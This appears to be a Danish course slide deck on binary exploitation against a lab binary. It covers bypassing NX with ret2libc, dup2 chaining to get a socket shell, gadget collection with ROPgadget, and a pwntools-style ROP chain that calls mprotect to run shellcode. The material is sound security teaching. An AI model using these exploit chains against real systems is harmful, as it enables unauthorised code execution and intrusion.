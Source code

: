 Næste mitigation - No Execute
-----------------------------

Også kaldt *Data Execution Prevention*, eller *W^X*

Næste mitigation - No Execute
-----------------------------

[source,bash]
------------------------------------------------
$ checksec assignments/fmt_nx
[*] '/vagrant/presentations/04-advanced-exploitation/assignments/fmt_nx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
------------------------------------------------

Næste mitigation - No Execute
-----------------------------

[source,bash]
------------------------------------------------
$ grep -E '(fmt_nx)|(stack)' /proc/$(pidof fmt_nx)/maps
56559000-5655b000 r-xp 00000000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655b000-5655c000 r--p 00001000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655c000-5655d000 rw-p 00002000 00:7d 22 /04-advanced-exploitation/fmt_nx
ff9ae000-ff9cf000 rw-p 00000000 00:00 0  [stack]
------------------------------------------------

Løsning 1 - ret2libc
--------------------

Udføres `system("/bin/bash");` ser stakken således ud ved første instruktion i `system@libc`:

image::../images/ret2libc_1.png[width=600]

Løsning 1 - ret2libc
--------------------

Hvad nu hvis vi får stakken til at se sådan her ud lige inden en `ret` instruktion?:

image::../images/ret2libc_2.png[width=600]

Hvordan finder vi `system@libc`?
--------------------------------

Fandens komplekst men meget lærerigt at forsøge manuelt.

Rimeligt velbeskrevet her: http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html

Og illustreret her: http://blog.the-playground.dk/2017/06/dynelf-illustrated.html

Indtil lysten til den slags dukker op kan I benytte `DynELF` klassen fra `pwntools`.

[source,python]
------------------------------------------------
class DynELF:
    ...
    def __init__(self, leak, pointer=None, elf=None):
        ...
------------------------------------------------

Opgave 6 - Lav arbitrary read funktion
--------------------------------------

Test den ved at resolve `system` fra `libc`

Opgave 7 - Returner til `system`
--------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Det gjorde vi også:

[source,bash]
------------------------------------------------
[pid  5410] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[pid  5410] execve("/bin/sh", ["sh", "-c", "/bin/bash"], [/* 3 vars */]) = 0
strace: [ Process PID=5410 runs in 64 bit mode. ]
.......
[pid  5403] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdeadbeef} ---
....
------------------------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Vi kommunikerer med processen via en socket med file descriptor 4.

Shellen snakker med stdin, stdout og stderr som har file descriptors 0, 1 og 2

Hvorfor fik vi ikke en shell?
-----------------------------

Husk `findpeersh`?

Den fandt en socket filedescriptor og kopierede den til filedescriptor 0, 1 og 2.

Vi kan gøre det samme.

Opgave 8 - Chained ret2libc
---------------------------

Vi skal gøre dette:

[source,c]
------------------------------------------------
dup2(4, 0);
dup2(4, 1);
dup2(4, 2);
system("/bin/bash");
------------------------------------------------

Opgave 8 - Chained ret2libc
---------------------------

Men det er problematisk

image::../images/bad_chaining.png[width=600]

Opgave 8 - Chained ret2libc
---------------------------

Ryd stakken mellem "kald"

image::../images/good_chaining.png[width=300]

Når ret2libc ikke virker
------------------------

* Statisk lænkede programmer uden libc
* Hvis vi ikke kan resolve
* I x86_64/ARM/MIPS leveres argumenter ikke på stakken men i registre

Return Oriented Programming (ROP)
---------------------------------

Kræver kontrol med stakken.

ROP Gadget: Kort serie af instruktioner som ender med `ret` eller `call/jmp` til et register

ROP Chain: Serie af gadgets, som opnår et delmål

Kæd dem sammen ved at returnere rundt for at opnå et større mål.

Return Oriented Programming (ROP)
---------------------------------

Indsamling af gadgets

[source,bash]
------------------------------------------------
$ ROPgadget --multibr --binary assignments/fmt_nx
Gadgets information
============================================================
0x00000936 : adc al, 0x24 ; call eax
0x00000983 : adc al, 0x24 ; call ecx
0x00001297 : adc al, 0x41 ; ret
....
0x00000b4d : sub esp, 0x44 ; call 0x8f9
0x0000071d : sub esp, 8 ; call 0x8f9
0x00000931 : test eax, eax ; je 0x92c ; mov dword ptr [esp], edx ; call eax
0x00001293 : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 158
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Dem vi kan nøjes med

[source,bash]
------------------------------------------------
0x00000d13 : add esp, 0x44 ; pop ebx ; pop ebp ; ret
0x00000e88 : int 0x80 ; ret
0x00000739 : pop ebx ; ret
0x00000d7b : pop eax ; ret
0x00000737 : les ecx, ptr [eax] ; pop ebx ; ret
0x00000a06 : lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0x00000928 : pop ebx ; pop ebp ; ret
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Slutmålet med vores kæde:

[source,c]
------------------------------------------------
mprotect(shellcode & PAGE_MASK, 
         PAGE_SIZE * 2, 
         PROT_READ|PROT_WRITE|PROT_EXEC);
((void(*))shellcode)();
------------------------------------------------

[source,asm]
------------------------------------------------
mov eax, SYS_mprotect
mov ebx, shellcode & PAGE_MASK
mov ecx, PAGE_SIZE * 2
mov edx, PROT_READ | PROT_WRITE | PROT_EXEC
int 0x80
jmp shellcode
------------------------------------------------

Return Oriented Programming (ROP) - delmål 1
--------------------------------------------

`edx = PROT_READ|PROT_WRITE|PROT_EXEC = 7`

[source,python]
------------------------------------------------
fmt_base + POP_EBX, # pop ebx ; ret
7 + 0x110,          # ->ebx
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + POP2,    # ->eax = pop ebx ; pop ebp ; ret
fmt_base + LEA_EDX, # lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0xdeadbeef,         # Will be overwritten
------------------------------------------------

Return Oriented Programming (ROP) - delmål 2
--------------------------------------------

`ecx = PAGE_SIZE * 2` og `ebx = shellcode & PAGE_MASK`

[source,python]
------------------------------------------------
poke(fmt_base + 0x3000, p32(PAGE_SIZE * 2) + "\0\0")
------------------------------------------------

`fmt_base + 0x3000` er en skrivbar datasektion.

[source,python]
------------------------------------------------
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + 0x3000,  # ->eax
fmt_base + LES_ECX, # les ecx, ptr [eax] ; pop ebx ; ret
buffer & PAGE_MASK, # address to mprotect must be on a page boundary
------------------------------------------------

Return Oriented Programming (ROP) - delmål 3
--------------------------------------------

Udfør systemkald til `mprotect` og spring så til shellcoden

[source,python]
------------------------------------------------
fmt_base + POP_EAX,           # pop eax ; ret
int(constants.SYS_mprotect),  # ->eax
fmt_base + INT_80,            # int 0x80 ; ret
buffer
------------------------------------------------
